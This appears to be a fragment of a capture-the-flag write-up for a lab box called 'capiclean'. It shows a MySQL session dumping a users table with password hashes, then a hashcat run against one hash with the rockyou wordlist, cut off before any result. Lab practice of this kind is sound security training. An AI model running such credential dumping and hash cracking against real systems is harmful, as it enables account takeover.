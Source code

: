 ```shell
Database changed
mysql> show tables
    -> ;
+---------------------+
| Tables_in_capiclean |
+---------------------+
| quote_requests      |
| services            |
| users               |
+---------------------+
3 rows in set (0.01 sec)

mysql> select * from users;
+----+----------+------------------------------------------------------------------+----------------------------------+
| id | username | password                                                         | role_id                          |
+----+----------+------------------------------------------------------------------+----------------------------------+
|  1 | admin    | 2ae316f10d49222f369139ce899e414e57ed9e339bb75457446f2ba8628a6e51 | 21232f297a57a5a743894a0e4a801fc3 |
|  2 | consuela | 0a298fdd4d546844ae940357b631e40bf2a7847932f82c494daa1c9c5d6927aa | ee11cbb19052e40b07aac0ca060c23ee |
+----+----------+------------------------------------------------------------------+----------------------------------+
2 rows in set (0.00 sec)

mysql> 
```
```shell
┌──(toan㉿ToanNguyen)-[~]
└─$ hashcat -m 1400 -a 0  hash /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 4.0+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.7, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: cpu-penryn-11th Gen Intel(R) Core(TM) i5-11400H @ 2.70GHz, 2135/4335 MB (1024 MB allocatable), 3MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Hash
* Single-Salt
* Raw-Hash

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c
```